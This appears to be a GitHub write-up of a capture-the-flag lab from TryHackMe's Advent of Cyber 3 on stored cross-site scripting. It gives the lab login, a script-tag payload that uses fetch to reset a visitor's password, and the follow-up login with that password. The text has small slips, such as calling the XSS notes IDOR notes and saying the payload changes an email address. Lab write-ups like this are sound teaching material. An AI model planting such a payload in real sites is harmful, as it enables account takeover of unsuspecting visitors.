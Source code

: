 # XSS Vulnerability

[!If you want to check my notes about IDORs](https://github.com/itKhalid143/websec365/blob/main/Days/Day10-XSS.md)

***
## First we're logging using the given Credentials!

```php
Username: McSkidy

Password: password
```
![****](/Advent%20of%20Cyber%203/Screenshots/Task5/login.PNG)

## Then we're hopping to a blog to inject our malicious script!
```js
<script>fetch('/settings?new_password=pass123');</script>
``` 
```js
<script>/* */</script> #Allows use to run Javascripts inside our page
```
```fetch``` function makes a network request to the specified URL.

![****](/Advent%20of%20Cyber%203/Screenshots/Task5/1.PNG)

Once the target visist the the blog we posted it, the code will automatically make a request using fetch function to given link to change the email address!

![****](/Advent%20of%20Cyber%203/Screenshots/Task5/2.PNG)

## Here we're see how our command is injected in the source code!

## Lately we're logging with the new password we set in our malicious code!

```php
Username: grinch

Password: pass123
```
![****](/Advent%20of%20Cyber%203/Screenshots/Task5/3.PNG)

## Well done Hackers!